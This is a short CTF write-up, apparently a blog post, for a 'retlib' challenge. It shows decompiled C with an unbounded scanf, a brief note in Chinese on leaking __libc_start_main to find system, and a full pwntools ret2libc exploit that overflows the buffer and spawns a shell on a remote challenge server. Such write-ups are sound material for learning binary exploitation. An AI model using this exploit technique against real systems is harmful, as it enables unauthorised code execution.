

# retlib
#0blog

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+1Ch] [ebp-14h]

  puts("Hello!");
  printf("The address of \"/bin/sh\" is %p\n", binsh);
  printf("The address of function \"puts\" is 0x%x\n", &puts);
  fflush(stdout);
  return __isoc99_scanf("%s", &v4);
}
```

Puts用来泄漏`__libc_start_main`，计算system的地址。

有个小问题：本地关闭ASLR之后puts出来的system地址中含有 `\x0c`，于是各种跳不过去。。。奇怪，不应该啊，于是就打开了ASLR换一个地址。



```python
from pwn import *

elf = ELF('ret2libc')
libc = ELF('libc.so.6')

libc_start_main_got = elf.got['__libc_start_main']
main = elf.symbols['main']

#p = process("./ret2libc")
p = remote("bamboofox.cs.nctu.edu.tw", 11002)
p.recvline()
binsh_addr = p.recvline().split()[-1][2:]
puts_addr = p.recvline().split()[-1][2:]
print 'binsh_addr: ' + binsh_addr
print 'puts_addr: ' + puts_addr

payload = flat(['A' * 32, int(puts_addr, 16), main, libc_start_main_got])
p.sendline(payload)
libc_start_main_addr = u32(p.recv()[:4])
print 'libc_start_main_addr: ' + hex(libc_start_main_addr)

system_addr = libc_start_main_addr - (libc.symbols['__libc_start_main'] - libc.symbols['system'])
print 'system_addr: ' + hex(system_addr)

payload = flat(['A' * 24, system_addr, main, int(binsh_addr, 16)])
#context.terminal = ['tmux', 'splitw', '-h']
#gdb.attach(proc.pidof(p)[0])
p.sendline(payload)
p.interactive()
```